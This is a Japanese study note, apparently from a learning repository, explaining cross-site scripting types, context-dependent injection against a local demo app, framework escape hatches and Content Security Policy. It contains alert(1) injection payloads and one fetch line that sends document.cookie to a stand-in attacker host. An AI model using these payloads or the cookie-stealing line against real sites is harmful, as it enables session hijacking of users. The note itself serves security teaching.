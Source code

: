 ## クロスサイトスクリプティングについて

### 概要

- XSS はクライアントからの入力値を基に動的に HTML を生成するような Web アプリケーションにおいて、生成される HTML に対してスクリプトを挿入可能である場合に発生するコードインジェクション系の脆弱性の一種。

- 例
  - クエリ文字列の name の値を参照し,`<p>Hello, nameの値！</p>`という HTML をレスポンスするアプリケーション

```bash
docker compose up
```

http://localhost:5002/?name=taro

ここで以下のようなクエリを送信するとどうなるのか。

`http://localhost:5002/?name=</p><script>alert("やあ^^")</script><p>`

- XSS 脆弱性を利用して挿入された Javascript プログラムは [SOP](https://developer.mozilla.org/ja/docs/Web/Security/Same-origin_policy) による制約を受けることなく、その Web ページ上のコンテキストにおいて任意の処理を実行できてしまう。

  - セッションハイジャックなどが起こせてしまう。

  ```js
  fetch(`http://attaker.example.com?cookie=${document.cookie}`);
  ```

- [XSS の種別](https://siteguard.jp-secure.com/blog/protect-for-xss/)

  - 反射型 XSS
    - リクエストに含まれるクエリ文字やボディの一部の内容をレスポンスとする HTML に反映するような Web アプリケーションで発生する
    - 被害者のブラウザ上で実行したいスクリプトを含んだ HTML がレスポンスされるようなクエリ文字が設定された URL に誘導し、攻撃を実現
  - 蓄積柄 XSS
    - ユーザの入力ちがデータベース等の永続的なストレージに格納され、かつ、そのデータを基に HTML を生成するような Web アプリケーションにおいて発生する。
    - 攻撃者はスクリプトが実行されるようなメモをデータベースに保存しておき、そのメモにアクセスさせるような URL へと被害者を誘導する
  - DOM-based XSS
    - 反射型や蓄積型 XSS はサーバサイドで HTML を動的に派生する際に発生する XSS だったが、クライアントサイドでクエリ文字列に`location.search`やフラグメント識別子(`location.hash`)等を基に DOM を操作する際に発生する XSS

- web アプリケーションの実装に応じてスクリプトの挿入方法も考える必要がある

  - 単純なエコーバック
    - `http://localhost:5003/simple?name=<script>alert(1)</script>`
  - 入力値が属性値として出力される場合
    - `http://localhost:5003/attribute_without_quote?name=/><script>alert(1)</script>`
  - 入力値が DOM 操作に利用される場合
    - `http://localhost:5003/dom_based?<script>alert(1)</script>`
    - これは実行されない
    - [参考](https://developer.mozilla.org/ja/docs/Web/API/Element/innerHTML#%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%81%AE%E8%80%83%E6%85%AE%E4%BA%8B%E9%A0%85)

- Web フロントエンドのフレームワークと DOM-based XSS
  - 今主流で使われている Web フロントエンドのフレームワークは、主にデータバインディング機能を提供することが特徴
  - 下記フレームワークを使う実装ではデータバインディングが多用されているので、デフォルトで出力値をエスケープする実装がなされている。
    - React
    - Vue.js
    - Angular
  - しかし、時にアプリケーション開発においては勝手にエスケープしないで欲しい場合がある（例えば、Markdown 記法で記述されたテキストを HTML としてレンダリングした上で表示したい場合など）
    - これを実現するための抜け道
      - React
        - [dangerouslySetInnerHTML](https://beta.reactjs.org/reference/react-dom/components/common#dangerously-setting-the-inner-html)
      - Vue.js
        - `v-html`ディレクティブ
        - `render` 関数における `domProps` や `domPropsInnerHTML`
      - Angular
        - (1.x 系)`ng-bind-html` ディレクティブ
        - (2.0 以降)`DomSanitizer.bypassSecurityTrustHtml`関数

### CSP: Content Security Policy

- CSP は XSS をはじめとする Content Injection 攻撃に対するリスクを軽減されるセキュリティレイヤー

  - 開発者は CSP を用いることで、特定の Web ページにおいて読み込みや実行などの処理を許可するコンテンツを明示的に指定できる
  - XSS が発生するそもそもの原因は、スクリプトを解釈して実行するブラウザが「どのスクリプトが正当な開発者にとって実行が意図されたもので、反対にどのスクリプトが攻撃者によって挿入されたものなのか」を判別できない点にあると言える

- CSP の仕様
  - CSP の配信
    - [HTTP レスポンスの Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
    - HTML ヘッダー内の meta 要素
  - ディレクティブ
    - CSP による制限を定義するための命令記法
    - `<directive-name> <directive-value>`のタプルで構成される
    - `script-src 'self' 'unsafe-inline' ....`
      - `Fetch Directives`: リソースの読み込みや実行に関する制限をかけたディレクティブ
      - `Document Directives`: ドキュメントやワーカーの状態に関するディレクティブ
      - `Navigation Directives`: ナビゲーションコンテキストに関する制限を提供するディレクトリ
      - `Reporting Directives`: 何らかの制限に違反した際にレポートを行う機能を提供するディレクティブ
